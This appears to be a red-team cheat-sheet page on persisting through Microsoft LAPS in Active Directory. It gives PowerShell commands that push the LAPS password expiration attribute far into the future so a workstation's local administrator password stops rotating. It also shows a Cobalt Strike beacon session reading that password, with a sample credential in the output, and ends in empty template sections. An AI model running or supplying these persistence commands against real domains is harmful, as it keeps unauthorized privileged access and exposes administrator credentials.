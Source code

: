 # Local Administrator Password Solution (LAPS) Persistence

## Increase expiration date (persistence)
⚠️The password will still reset in case of:
- `Reset-AdmPwdPassword` cmdlet
- `Do not allow password expiration time longer than required by policy` is enabled in the LAPS GPO.

Requirements:
* Expiration time = epoch value
* SYSTEM permission

>powershell Get-DomainObject -Identity wkstn2 -Properties ms-mcs-admpwdexpirationtime

>powershell Set-DomainObject -Identity wkstn2 -Set @{"ms-mcs-admpwdexpirationtime"="1913564304000"}
```

```beacon
beacon> powershell Get-AdmPwdPassword -ComputerName wkstn2 | fl

ComputerName        : WKSTN2
DistinguishedName   : CN=WKSTN2,OU=Workstations,DC=edu,DC=evil,DC=corp
Password            : awdc1948wa4dc1
ExpirationTimestamp : 8/21/2030 5:38:24 PM
```


## Tools
########
########


```meta
ttp: T1000
requirements:
results: 
description: 
```